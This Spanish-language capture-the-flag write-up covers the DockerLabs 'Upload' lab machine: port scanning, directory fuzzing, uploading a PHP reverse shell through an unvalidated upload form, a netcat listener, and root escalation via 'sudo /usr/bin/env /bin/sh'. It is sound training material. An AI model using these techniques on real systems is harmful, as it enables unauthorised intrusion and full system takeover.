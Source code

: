 # 📘 Informe Técnico - Máquina: *Upload*

* **Nivel:** Fácil
* **Propósito:** Evaluar la capacidad para identificar y explotar vulnerabilidades de subida de archivos.
* **Objetivo:** Obtener acceso remoto mediante una shell inversa y escalar privilegios a root.

---

![Logo](Imágenes/2025-05-15_15-37.png)

## 🛠️ Despliegue de la Máquina

Iniciamos descargando el archivo comprimido desde DockerLabs. Luego lo descomprimimos con:

```bash
unzip upload.zip
```

Posteriormente, desplegamos la máquina vulnerable usando el siguiente comando:

```bash
sudo bash auto_deploy.sh Upload.tar
```

Verificamos que la máquina esté activa con un `ping` al contenedor:

```bash
ping -c1 172.17.0.3
```

![Ping a la máquina](Imágenes/Capturas.png)

---

## 🔎 Reconocimiento

Realizamos un escaneo de puertos completo con `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

![Nmap Puertos](Imágenes/Capturas_1.png)

Luego usamos `extractPorts` para filtrar los puertos detectados y escaneamos con más detalle:

```bash
nmap -sCV -p80 172.17.0.3
```

![Nmap detallado](Imágenes/Capturas_2.png)

### 🔍 Resultado:

* **Puerto 80**: Servicio HTTP activo (servidor web).

---

## 🌐 Análisis Web

Al acceder a la web en el puerto 80, observamos una interfaz simple con una opción de subida de archivos.

![Web](Imágenes/Capturas_4.png)

Realizamos un fuzzing de directorios para detectar rutas ocultas:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

### 🔍 Directorios encontrados:

* `/uploads`
* `/index.html`
* `/upload.php`

![Pagina](Imágenes/Capturas_5.png)

Al ingresar a `/uploads`, observamos los archivos que han sido subidos previamente.

---

## ⚙️ Explotación - WebShell

En base al comportamiento de la aplicación, generamos una **PHP Reverse Shell** (`php-reverse-shell.php`). Este archivo se incluye en el repositorio como `exploit`.

Luego, iniciamos el listener en nuestra máquina atacante:

```bash
sudo nc -lvnp 443
```

Desde la interfaz de subida (`/upload.php`), cargamos nuestro archivo malicioso `.php`.

![subida](Imágenes/Capturas_8.png)

Posteriormente, al acceder al archivo desde la ruta `/uploads`, se ejecuta el payload y obtenemos una **shell inversa** como el usuario `www-data`.

![Escucha](Imágenes/Capturas_7.png)

---

## ⚡ Escalada de Privilegios

Una vez dentro, ejecutamos el siguiente comando para verificar los privilegios sudo:

```bash
sudo -l
```

La salida indica que el usuario `www-data` puede ejecutar `/usr/bin/env` como root **sin contraseña**:

```
(root) NOPASSWD: /usr/bin/env
```

![php](Imágenes/Capturas_9.png)

Aprovechamos esta configuración para escalar privilegios ejecutando una shell como root:

```bash
sudo /usr/bin/env /bin/sh
```

¡Y obtenemos acceso como **root**!

![root](Imágenes/Capturas_10.png)

---

## 🏁 Conclusión

La máquina *Upload* demuestra una vulnerabilidad común: **falta de validación en la subida de archivos**, lo cual permite la ejecución remota de comandos. La escalada de privilegios es posible gracias a una configuración de `sudo` mal gestionada que permite el uso de `env` como root sin contraseña.

> 💡 **Lección clave:** Nunca se debe permitir la ejecución de binarios como `env`, `python`, `perl`, etc., mediante sudo sin contraseña, especialmente desde usuarios de bajo privilegio como `www-data`.

---
